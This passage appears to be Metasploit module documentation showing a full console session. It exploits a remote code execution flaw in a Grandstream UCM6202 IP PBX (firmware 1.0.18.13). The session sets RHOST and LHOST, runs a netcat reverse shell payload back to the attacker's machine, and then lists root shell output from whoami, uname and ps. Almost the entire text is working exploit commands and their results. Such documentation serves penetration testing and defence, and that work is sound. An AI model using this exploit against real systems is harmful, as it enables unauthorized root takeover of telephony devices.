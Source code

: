 ```
Revision	: 63015
Serial		: 1126b9d4eacb275c
```

### Grandstream UCM6202 IP PBX firmware version 1.0.18.13. Get reverse shell using netcat.

```
msf > use exploit/linux/http/grandstream_ucm62xx_sendemail_rce
[*] Using configured payload linux/armle/meterpreter/reverse_tcp
msf exploit(linux/http/grandstream_ucm62xx_sendemail_rce) > set target 0
target => 0
msf exploit(linux/http/grandstream_ucm62xx_sendemail_rce) > set RHOST 10.0.0.9
RHOST => 10.0.0.9
msf exploit(linux/http/grandstream_ucm62xx_sendemail_rce) > set LHOST 10.0.0.3
LHOST => 10.0.0.3
msf exploit(linux/http/grandstream_ucm62xx_sendemail_rce) > run

[*] Started reverse TCP handler on 10.0.0.3:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Requesting version information from /cgi
[*] The reported version is: 1.0.18.13
[+] The target appears to be vulnerable. This determination is based on the version string.
[*] Executing Unix Command for cmd/unix/reverse_netcat_gaping
[+] Exploit successfully executed.
[*] Command shell session 1 opened (10.0.0.3:4444 -> 10.0.0.9:51251 ) at 2022-01-15 12:19:18 -0800

whoami
root
uname -a
Linux UCM6202 3.0.35 #1 SMP PREEMPT Thu Jul 5 15:56:51 CST 2018 armv7l GNU/Linux
ps faux
PID   USER     TIME   COMMAND
    1 root       0:00 /sbin/init
    2 root       0:00 [kthreadd]
    3 root       0:05 [ksoftirqd/0]
    5 root       0:00 [kworker/u:0]
    6 root       0:00 [migration/0]
    7 root       0:00 [khelper]
    8 root       0:00 [kworker/u:1]
  156 root       0:00 [sync_supers]
  158 root       0:00 [bdi-default]
  160 root       0:00 [kblockd]
  186 root       0:00 [imx6q-ecspi.0]
  188 root       0:00 [imx6q-ecspi.2]
  197 root       0:00 [khubd]
  293 root       0:00 [rpciod]
  301 root       0:00 [usb_wakeup thre]
  304 root       0:00 [usb_wakeup thre]
  315 root       0:00 [kswapd0]
  316 root       0:00 [ksmd]
  317 root       0:00 [fsnotify_mark]
  318 root       0:00 [nfsiod]
  323 root       0:00 [crypto]
  438 root       0:00 [kworker/0:3]
  440 root       0:01 [mmcqd/0]
  441 root       0:00 [mmcqd/0boot0]
  442 root       0:00 [mmcqd/0boot1]
  564 root       0:00 udevd --daemon
 1477 root       0:00 [kworker/1:2]
 3677 root       0:00 [kworker/0:1]
 3716 root       0:00 [kworker/1:0]
 5347 root       0:00 [kworker/0:0]
```